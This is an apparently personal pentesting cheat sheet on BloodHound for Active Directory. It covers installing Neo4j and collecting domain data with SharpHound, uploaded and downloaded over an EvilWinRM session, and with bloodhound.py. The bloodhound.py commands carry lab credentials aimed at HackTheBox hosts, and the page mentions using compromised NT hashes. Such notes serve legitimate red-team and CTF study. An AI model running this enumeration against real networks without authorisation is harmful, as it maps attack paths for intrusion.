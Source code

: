 # Bloodhound
https://github.com/SpecterOps/BloodHound

![Walking the Dog](../assets/WalkTheDog.png)

Let the dog sniff things out because automated enumeration is cool

The tools used are - [BloodHound](https://github.com/BloodHoundAD/BloodHound/releases/), [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) or [SharpHound.ps1](https://www.noobsec.net/ad-cheatsheet/)

> BloodHound (Javascript webapp, compiled with Electron, uses Neo4j as graph DBMS) is an awesome tool that allows mapping of relationships within Active Directory environments. It mostly uses Windows API functions and LDAP namespace functions to collect data from domain controllers and domain-joined Windows systems.
```bash
# Install Dependancies
sudo apt-get install openjdk-11-jdk
sudo apt install -y neo4j
sudo neo4j start
sudo /usr/bin/neo4j console # For any debugging

# Change password to neo5j
http://localhost:7474/browser/

unzip BloodHound-linux-x64.zip
./BloodHound-linux-x64/BloodHound # may need --no-sandbox
```
## Collection
### Sharphound
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

> SharpHound (sources, builds) is designed targeting .Net 4.5. It can be used as a compiled executable.
> 
> It must be run from the context of a domain user, either directly through a logon or through another method such as runas (runas /netonly /user:$DOMAIN\$USER) (see Impersonation). Alternatively, SharpHound can be used with the LdapUsername and LdapPassword flags for that matter.
```powershell
# EvilWinRM
upload SharpHound.exe

# Leverage LDAPS
./SharpHound.exe --SecureLdap

SharpHound.exe --collectionmethods All

download ***.zip
```

### bloodhound.py
https://github.com/fox-it/BloodHound.py

> From UNIX-like system, a non-official (but very effective nonetheless) Python version can be used.
> 
> BloodHound.py is a Python ingestor for BloodHound.
> 
> This ingestor is not as powerful as the C# one. It mostly misses GPO collection methods **but** a good news is that it can do pass-the-hash. It becomes really useful when compromising a domain account's NT hash.
```bash
bloodhound-python -u florence.ramirez -p 'uxLmt*udNc6t3HrF' -ns 10.10.11.24 -c all -d ghost.htb --zip

bloodhound-python -u 'l.clark' -p 'WAT?watismypass!' -d 'infiltrator.htb' -gc 'dc01.infiltrator.htb' -ns 10.129.8.232 -c all --zip

bloodhound.py --zip -c All -d $DOMAIN -u $USERNAME -p $PASSWORD -dc $DOMAIN_CONTROLLER
```